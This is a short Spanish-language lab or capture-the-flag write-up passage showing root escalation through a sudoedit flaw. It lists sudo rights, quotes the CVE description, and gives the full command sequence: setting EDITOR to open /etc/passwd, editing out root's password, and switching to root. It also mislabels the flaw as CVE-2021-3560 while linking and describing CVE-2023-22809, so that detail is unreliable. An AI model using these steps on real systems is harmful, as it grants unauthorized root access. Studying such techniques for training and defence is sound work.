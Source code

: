 Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for jessica on 9ea7af8cd4f5:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jessica may run the following commands on 9ea7af8cd4f5:
    (root) NOPASSWD: sudoedit /var/www/html/*
```

Veremos que podemos ejecutar `sudoedit` en la siguiente ruta como el usuario `root`, por lo que haremos lo siguiente:

Vemos que esto tiene una vulnerabilidad con un `CVE` asociado llamado `CVE-2021-3560` y que su descripcion es la siguiente:

```
Descripción de la vulnerabilidad

En Sudo anterior a 1.9.12p2, la característica sudoedit (también conocida como -e) maneja mal argumentos adicionales pasados ​​en las variables de entorno proporcionadas por el usuario (SUDO_EDITOR, VISUAL y EDITOR), permitiendo a un atacante local agregar entradas arbitrarias a la lista de archivos para procesar. . Esto puede conducir a una escalada de privilegios. Las versiones afectadas son 1.8.0 a 1.9.12.p1. El problema existe porque un editor especificado por el usuario puede contener un argumento "--" que anula un mecanismo de protección, por ejemplo, un valor EDITOR='nano -- /path/to/extra/file'.
```

Mas info en el siguiente repositorio:

URL = [Info CVE-2021-3560](https://github.com/asepsaepdin/CVE-2023-22809)

Por lo que vemos lo que a nosotros nos interesa es editar el `passwd`.

```shell
export EDITOR='nano -- /etc/passwd'
```

Ahora ejecutamos lo siguiente:

```shell
sudo sudoedit /var/www/html/testfile
```

Esto nos abrira el `passwd` por lo que eliminaremos la `x` del usuario `root` para quitarle la contraseña quedando asi:

```
root::0:0:root:/root:/bin/bash
```

Lo guardamos con `^X` despues `Y` y por ultimo `ENTER` y con esto ya estaria aplicado.

```shell
su root
```

Y veremos que seremos `root` sin que nos pida ninguna contarseña de forma previa.

